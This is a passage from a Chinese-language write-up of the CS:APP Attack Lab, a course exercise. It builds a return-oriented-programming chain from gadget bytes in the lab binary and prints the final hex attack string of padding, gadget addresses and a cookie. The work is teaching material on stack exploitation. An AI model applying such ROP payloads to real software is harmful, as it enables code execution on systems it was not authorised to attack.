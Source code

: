 ```assembly
0x4019c5 48 89 c7     #movq %rax,%rdi
0x4019c8 90           #nop
0x4019c9 c3           #ret 
```

**add_xy**

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq  
```

```assembly
0x4019d8 04 37   #add 0x37.al
0x4019da c3      #ret   
```

**最终结果：**

```assembly
// address is 0x401a06,execute a part of addval_190
movq %rsp,%rax
ret
//address is ox4019d8,execute a part of add_xy
add 0x37,%al
ret
//address is 0x4019c5,execute a part of addval_426
movq %rax,%rdi
ret
```


由上，可以知道攻击序列为

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
d8 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 35
39 62 39 39 37 66 61 00
```

![image-20211030171328659](实验3：AttackLab.assets/image-20211030171328659.png)